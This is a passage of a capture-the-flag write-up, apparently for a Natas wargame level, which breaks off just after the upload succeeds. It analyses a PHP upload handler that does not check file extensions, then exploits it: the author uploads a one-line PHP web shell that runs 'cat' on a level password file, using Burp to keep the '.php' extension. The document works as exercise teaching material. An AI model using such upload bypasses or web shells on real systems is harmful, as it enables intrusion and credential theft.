 ```php=
    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
```
Let's make a short analysis on this php script:
- The function `genRandomString` generates a 10-character string using `mt_rand` function (maybe `mt-19937`).
- The function `makeRandomPath` generates a random path with 2 parameters: `dir` (direction) and `ext` (extension) --> `dir/{genRandomString}.ext`.
- The function `makeRandomPathFromFilename` get the uploaded file's extension and returns a random path using the function `makeRandomPath`.
- The next script gets the uploaded file and create path, then stores it on `target_path`, checks the file's size and stores it.

In the PHP script, I do not see any command to check the extension of the file, but in HTML, the extension is `jpg`, website also asks to upload .jpg file.
![image](https://hackmd.io/_uploads/HJOUqrHhke.png)

--> Maybe I can upload a PHP script to print out the content (password) of the file: `/etc/natas_webpass/natas13`. But at first, the file's extension must be kept as `.php`.
Let's make a short research to know how to keep the file's extension.
![image](https://hackmd.io/_uploads/Hy0_orr2kg.png)
![image](https://hackmd.io/_uploads/rkXehBBnkl.png)
It is able to write a PHP script to print out the password and use Burp to keep the file's extension as `.php`.
```php=
<?php
	echo system ("cat /etc/natas_webpass/natas13");
?>
```
![image](https://hackmd.io/_uploads/S1rjJUr3kl.png)
The file's extension is automatically set to `.jpg`, let's change it to `.php`.
![image](https://hackmd.io/_uploads/ryz318H2ye.png)
The file hass been successfully uploaded as `.php`. Let's click on the path to view 